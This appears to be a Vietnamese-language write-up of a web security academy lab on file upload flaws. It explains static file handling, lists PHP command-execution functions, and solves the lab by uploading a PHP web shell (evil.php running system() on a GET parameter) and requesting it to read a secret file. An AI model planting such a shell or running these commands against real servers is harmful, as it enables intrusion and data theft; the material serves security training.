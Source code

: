 Ngoài ra, các biện pháp kiểm tra có thể không đồng nhất giữa các phần khác nhau của website, dẫn đến lỗ hổng có thể bị khai thác.

### How do web servers handle requests for static files?
Để hiểu cách khai thác lỗ hổng tải lên tệp, bạn cần hiểu cơ bản cách máy chủ xử lý tệp tĩnh **(static files)**:
- Trước đây, website chủ yếu là tệp tĩnh (image, HTML), và mỗi yêu cầu HTTP tương ứng 1 tệp trên hệ thống.
- Ngày nay, nhiều website là nội dung động, nhưng vẫn có tệp tĩnh như CSS, image...

Quy trình xử lý tệp tĩnh:
1. Máy chủ phân tích đường dẫn trong yêu cầu để xác định phần mở rộng của tệp.
2. Dựa trên phần mở rộng, máy chủ xác định loại MIME và xử lý tùy theo cấu hình:
    - Nếu tệp không thể thực thi (HTML, image,…): máy chủ gửi trực tiếp nội dung tệp về trình duyệt.
    - Nếu là tệp thực thi (PHP,…):
        - Nếu máy chủ cho phép, nó sẽ chạy mã trong tệp.
        - Nếu không, máy chủ sẽ trả lỗi – hoặc trong trường hợp lỗi cấu hình, có thể hiển thị nội dung mã nguồn (dẫn đến rò rỉ thông tin nhạy cảm).


> Header **Content-Type** trong phản hồi HTTP có thể tiết lộ gợi ý về loại tệp mà máy chủ nghĩ rằng nó đang phục vụ. Nếu ứng dụng không tự đặt thủ công **Content-Type**, thì giá trị trong header này thường là kết quả của việc máy chủ ánh xạ phần mở rộng tệp sang loại MIME.
{: .prompt-tip }

## Solve File Upload Vulneralbilities Lab
---

Some other functions that can be used to execute commands in PHP:

| Hàm PHP        | Mô tả                                           |
| -------------- | ----------------------------------------------- |
| `system()`     | Thực thi lệnh và in kết quả trực tiếp           |
| `exec()`       | Thực thi lệnh và trả về kết quả dưới dạng biến  |
| `shell_exec()` | Thực thi lệnh và trả về kết quả dưới dạng chuỗi |
| `passthru()`   | Dùng cho các lệnh in dữ liệu nhị phân           |
| `popen()`      | Mở tiến trình lệnh như một file handle          |

### Lab: Remote code execution via web shell upload
- Đăng nhập và upload file `evil.php` với nội dung
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
- Ứng dụng method GET để thay đổi lệnh động thông qua params thay vì sửa thẳng trong file tĩnh
- dùng hàm `system()` để thực thi lệnh
- Mở file `evil.php` kèm theo cmd param để lấy nội dung **secret**
```
https://0ace00440407e4c382675bd50049003e.web-security-academy.net/files/avatars/evil.php?cmd=cat%20/home/carlos/secret
```
- Submit solution
